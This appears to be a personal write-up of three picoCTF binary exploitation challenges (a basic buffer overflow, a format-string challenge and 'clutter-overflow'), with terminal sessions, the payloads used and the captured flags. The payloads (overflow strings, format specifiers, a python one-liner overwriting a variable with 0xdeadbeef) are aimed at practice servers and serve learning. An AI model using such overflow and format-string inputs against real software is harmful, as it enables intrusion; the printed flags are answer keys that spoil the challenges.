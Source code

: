 # 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Connect using: nc saturn.picoctf.net 58311

## Solution:

Looking at the code you can figure out that the sigsegv_handler fuction gives the flag, the gets command is being used which is susceptible to buffer overflow as it does perform bounds checking. So all we need to do is enter an input larger than the size of the variable to get the flag.

    cookorcooked@ubuntu25:~$ nc saturn.picoctf.net 58311
    Input: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
    picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- Learnt about buffer overflow and vulnerabilities of the gets function.

## Notes:

- NONE
  
## Resources:

- NONE

***

# 2. Format String 0

Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: nc mimas.picoctf.net 60067

## Solution:

We are supposed to look for format specifiers to get a different output than expected, for customer one, we choose "Gr%114d_Cheese" as it has the format specifier %114d.

For the second customer we choose "Cla%sic_Che%s%steak" which has a format specifier %s which should give a srting. This gives us our flag

        cookorcooked@ubuntu25:~$ nc mimas.picoctf.net 60067
        Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
        Here comes the first customer Patrick who wants a giant bite.
        Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
        Enter your recommendation: Gr%114d_Cheese
        Gr                                                                                                           4202954_Cheese
        Good job! Patrick is happy! Now can you serve the second customer?
        Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
        Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
        Enter your recommendation: Cla%sic_Che%s%steak
        ClaCla%sic_Che%s%steakic_Che(null)
        picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}


## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

## Concepts learnt:

- Learnt about vunlnerabilities in format specifiers.

## Notes:

- NONE
  
## Resources:

- NONE


***

# 3. clutter-overflow

Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Solution:

We want code=0xdeadbeef for the flag, since gets() is vulnerable to buffer overflow, we will exploit that. Variable size is 0x100 which is 256 in decimal.
We add \xef\xbe\xad\xde for deadbeef as hex are read two at a time in the opposite order. So I took 256As and added \xef\xbe\xad\xde at the end and reiterated this adding more AAAAs till I got the flag.

        cookorcooked@ubuntu25:~$ (python -c "print('A'*264)+'\xef\xbe\xad\xde'") | nc mars.picoctf.net 31890
         ______________________________________________________________________
        |^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
        | ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
        |^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
        | ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
        |^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
        | ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
        |^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
        | ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
        |^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
        .-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
        |     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
        | ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
        |'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
        |\|______|===============|________________|/|""""""""""""""""""""""""""
        " ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
        ""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
        """"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
        """""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
        My room is so cluttered...
        What do you see?
        code == 0xdeadbeef: how did that happen??
        take a flag for your troubles
        picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}


## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Learnt about clutter and how there can be variations to exploiting buffer overflow.

## Notes:

- NONE
  
## Resources:

- NONE

***


